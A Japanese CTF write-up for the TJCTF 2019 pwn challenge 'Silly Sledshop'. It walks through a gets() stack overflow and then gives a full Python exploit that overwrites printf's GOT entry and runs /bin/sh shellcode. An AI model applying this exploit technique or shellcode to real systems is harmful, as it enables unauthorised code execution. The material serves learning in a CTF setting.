

// date: 2019-04-10

# はじめに
2019年4月の4日〜8日、TJCTFにNekoChanNano!というCTFチームで参加しました。自分はまだ初心者であり、レベルがかなり高かったと思います。良い勉強になりましたので、今回はPwn系の問題「Silly Sledshop」の解き方を解説していきたいと思います。

# 概要
こちらはチャレンジ記載：
```
Silly Sledshop - 80 Points
Written by evanyeyeye

Omkar really wants to experience Arctic dogsledding. Unfortunately, the sledshop (source) he has come across is being very uncooperative. How pitiful.
Lesson: nothing stops Omkar.
He will go sledding whenever and wherever he wants.

nc p1.tjctf.org 8010
```
その上、32ビットのELFバイナリとそのソースコードを手に入れます。

# 解析
まずはELFファイルを実行してみましょう。
```
$ ./sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
```
メニューが表示され、入力を待っているようです。そして指示すると、
```
[...]
Which product would you like?
1
Sorry, we don't currently have the product 1 in stock. Try again later!
$　#品切れだったら先に言ってよ！ヾ(｡>﹏<｡)ﾉﾞ
```
さあ次に、ソースコードを確認しよう〜
```c
#include <stdio.h>
#include <stdlib.h>

void shop_setup() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    setbuf(stdout, NULL);
}

void shop_list() {
    printf("The following products are available:\n");
    printf("|  Saucer  | $1 |\n");
    printf("| Kicksled | $2 |\n");
    printf("| Airboard | $3 |\n");
    printf("| Toboggan | $4 |\n");
}

void shop_order() {
    int canary = 0;
    char product_name[64];

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else      
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}

int main(int argc, char **argv) {
    shop_setup();
    shop_list();
    shop_order();
    return 0;
}
```
興味あるのはshop_order関数ですね。中には、getsでstdinを読み込み、入力データのサイズを確認せずに64バイトのバッファーproduct_nameに書き込みます。単純なバッファーオーバーフローが使えるように見えますが、実行ファイルのセキュリティ機構を確認すれば:
```
$ checksec ./sledshop
[*] '<省略>/sledshop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$
```
何だ、いけるじゃん。ただし、チャレンジサーバーではASLRが有効なので、スタックにシェルコードを置いても、アドレスがランダム化されるため、そこにリターン出来ません。そこで、長く長く長く流れるNOPスレッドを使えば行けるかもしれないけど、リモートサーバーですし時間かかりそうだから面倒くさい。シェルコードを一回で実行する方法を考えたほうがいいので、さあ楽しいシンキングタイムだぜ！

# 作戦
スタックトークンがないから普通のスタックオーバーフローで任意アドレスへ移動することが出来ます。ASLRが有効になるため、スタック内アドレスに簡単に戻れませんが、テキスト領域かGOT領域ならアドレスが固定なので使えます。

あと、Full RELROがないので、GOT領域が書込可能。問題はどうやって書き込むのかですね。ただのスタックオーバーフローだけだとスタック以外のメモリを書き込むことが出来ません。ディスアセンブリを読みながら任意アドレスを書き込む方法がわかりました。
```
80485dc:	8d 45 b4             	lea    eax,[ebp-0x4c]
80485df:	50                   	push   eax
80485e0:	e8 eb fd ff ff       	call   80483d0 <gets@plt>
```
これでございます。EBPから0x4cバイトを引いて読み込み先にし、gets関数を呼び出すとするアセンブリ命令。素敵じゃないですか！EBPレジスターを設定できれば、指定したアドレスの位置から0x4cを引いて、結果のアドレスに書き込みます。これを使えば、例えばprintf関数のGOTポインターに0x4cを足し、スタックのリターンポインターの前に置いて、このアセンブリ命令の冒頭に移動してprintfのGOTポインターを書き込んでしまう。とっても素敵！

# エクスプロイト
```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
import struct, os
# 作戦：printf関数のGOTポインターを書き換えることで、実行可能であるGOT領域に置いたシェルコードを実行する。
# GOTポインターを書き換えるには、ebxを設定し、バッファーオーバーフローでshop_order関数の真ん中に戻り、
# getsによりprintfのポインターを4バイト後の0x804a014に変えて、直後にシェルコードを同時期に置いておく。
# getsからshop_orderに戻ったらprintfが自然に呼び出されて、シェルコードを実行してしまう。

def payload():
    junk = "a"*76
    alphabet = "".join([x*4 for x in "ABCDEFGHIJKLMNOPQRSTUVWXYZ"])
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    gadget_gets = struct.pack('<I', 0x080485dc)    # gets() -> [ebp-0x4c]
    got_printf = struct.pack('<I', 0x804a010+0x4c) # printf()のGOTポインター。0x4cはアセンブリ命令に引かれます
    after_printf = struct.pack('<I', 0x804a014)    # printf()の直後ではあるが、偶然でgets()のGOTポインターでもある
    return junk + got_printf + gadget_gets + "\n" + after_printf + shellcode

print(payload())
```

そして実行：


以上Silly Sledshopの解答方法でした。
